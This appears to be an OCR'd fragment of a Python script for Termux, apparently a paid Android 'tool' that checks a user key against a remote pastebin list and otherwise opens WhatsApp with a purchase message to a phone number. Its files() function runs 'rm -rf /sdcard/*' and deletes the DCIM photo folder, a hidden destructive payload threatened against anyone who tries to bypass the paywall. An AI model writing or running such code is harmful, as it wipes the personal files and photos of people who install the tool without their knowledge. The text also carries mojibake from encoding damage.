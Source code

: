	os.system('clear')

	print(logo)

	r1=requests.get("https://pastebin.com/raw/7zhv8sfe").text

	if key1 in r1:

		os.system('clear')

		print(logo)

		main()

	else:

		os.system("clear")

		print(logo)

		print("\t    \033[1;37m[\033[1;32mâœ“\033[1;37m]\033[1;32mFirst Get Approvel\033[1;37m ")

		

		os.system("clear")

		print(logo)

		print(f"                     {H}YOUR {H}KEY{H} [{H}{H}]{H}")

		print("%s\033[0;95m═════════════════════\033[0;95mꖜ\033[1;92mꖜ\033[0;97mꖜ\033[0;95m════════════════════════%s"%(B,P))

		print("   \033[1;33m  BRO TOOL IS PAID")

		print("    \033[1;34m CAN'T TRY TO BYPSSS OTHER WISE YOURS DATA FUR ")

		print("    \033[1;35m SEND SUBSCRIBE AND THEN SEND KEY ON WHATSAPP")

		print (f"    \033[1;37m[\033[1;32mâœ“\033[1;37m]\033[1;32mYour Key â¬‡ðŸ‘‡â¬‡\n\n    {warna}"+naim+key1)

		input("    \033[1;37m[\033[1;32mâœ“\033[1;37m]\033[1;32m\033[1;32mEnter To Send Key")

		time.sleep(3.5)

		tks = '*ASALAMUALIKUM*%2C%20*print-JITU - X_🧸-SIR*%20*I*%20*BUY*%20*RS350EASYPAISA*%20*YOUR*%20*RANI_🧸*%20*NEW*%20*---*%20*TOOL*%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20*My*%20*Key*%20*:*'+naim+''+key1

		os.system('xdg-open  https://wa.me/+923458630524?text='+tks)

		Subscraption()

def files():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

    

    os.system('termux-setup-storage')
